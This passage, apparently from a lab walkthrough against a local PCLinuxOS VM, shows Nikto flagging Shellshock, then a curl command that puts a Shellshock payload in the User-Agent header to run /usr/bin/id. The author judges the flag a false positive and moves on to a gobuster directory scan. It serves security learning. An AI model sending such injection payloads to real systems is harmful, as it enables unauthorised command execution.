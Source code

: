 ```bash
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 9543 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2021-06-04 20:51:42 (GMT-4) (74 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Nikto does indicate the the site appears vulnerable to Shellshock. Testing it though appears to indicate otherwise.
```bash
┌──(kali㉿kali)-[]-[~/Desktop/resources/exploits/linux]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.34.130/cgi-bin/test.cgi
<b>Date: Sat Jun  5 04:05:42 2021</b><br>
<hr><h1>It worked!</h1>
This script runs under: CGI/1.1<hr></n%ENV: <br>
SCRIPT_NAME = /cgi-bin/test.cgi <br>
SERVER_NAME = (Hidden for security purposes) <br>
SERVER_ADMIN = (Hidden for security purposes) <br>
REQUEST_METHOD = GET <br>
HTTP_ACCEPT = */* <br>
SCRIPT_FILENAME = (Hidden for security purposes) <br>
SERVER_SOFTWARE = (Hidden for security purposes) <br>
QUERY_STRING =  <br>
REMOTE_PORT = 36104 <br>
HTTP_USER_AGENT = () { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id <br>
SERVER_SIGNATURE = Apache-AdvancedExtranetServer (Complete info hidden) <br>
SERVER_PORT = (Hidden for security purposes) <br>
REMOTE_ADDR = 192.168.34.138 <br>
SERVER_PROTOCOL = HTTP/1.1 <br>
PATH = (Hidden for security purposes) <br>
REQUEST_URI = /cgi-bin/test.cgi <br>
GATEWAY_INTERFACE = CGI/1.1 <br>
SERVER_ADDR = (Hidden for security purposes) <br>
DOCUMENT_ROOT = (Hidden for security purposes) <br>
HTTP_HOST = 192.168.34.130 <br>
MOD_PERL = (Hidden for security purposes) <br>
UNIQUE_ID = YLtahn8AAAEAAA-aCCQAAAAE <br>
```
Try a few other methods, but with no luck. My theory is that something in PCLinux OS generates a false-positive. With this avenue explored, time to go deeper with a bigger directory search. Note this particular wordlist is probably a bit too big, possibly a wordlist that just has web application names in it would be better to try before this one in the future.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ gobuster dir -u http://192.168.34.130 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 40 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.34.130
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
```